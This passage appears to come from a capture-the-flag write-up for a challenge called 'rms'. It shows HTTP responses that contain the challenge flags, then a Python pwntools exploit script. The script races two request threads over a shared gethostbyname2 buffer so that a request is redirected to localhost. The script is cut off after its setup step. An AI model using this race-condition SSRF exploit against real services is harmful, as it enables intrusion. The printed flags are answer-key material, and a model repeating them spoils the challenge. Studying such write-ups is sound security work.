 Response from rms:

```
HTTP/1.0 200 OK
Server: BaseHTTP/0.3 Python/2.7.15+
Date: Sun, 22 Sep 2019 14:43:35 GMT

DrgnS{350aa97f27f497f7bc13}
```

Response from rms-fixed:

```
HTTP/1.0 200 OK
Server: BaseHTTP/0.3 Python/2.7.15+
Date: Sun, 22 Sep 2019 14:50:44 GMT

DrgnS{e9759caf4f2d2b69773c}
```

### Exploit code

```python
#!/usr/bin/env python2

from pwn import *


if len(sys.argv) > 1 and sys.argv[1] == 'remote':
    p = remote('rms.hackable.software', 1337)
elif len(sys.argv) > 1 and sys.argv[1] == 'remote-fixed':
    p = remote('rms-fixed.hackable.software', 1337)
else:
    p = process('./rms')


def menu(choice):
    p.recvuntil('Choice? [pfvaq] ')
    p.sendline(choice)

def add(url):
    menu('a')
    p.recvuntil('url? ')
    p.sendline(url)

def view(idx):
    menu('v')
    p.recvuntil('id? ')
    p.sendline(str(idx))
    p.recvuntil('] Response, ')
    size = int(p.recvuntil(' '))
    p.recvline()
    return p.recvn(size)


prog = log.progress('Starting requests')

# block thread A on IPv6 request (google.com:8000 times out)
# we will turn the host into localhost later
add('http://google.com:8000/flag')

# make an IPv4 localhost request on thread B
# will fail, but will poison the static gethostbyname2 buffer
add('http://127.0.0.1')

prog.success()
```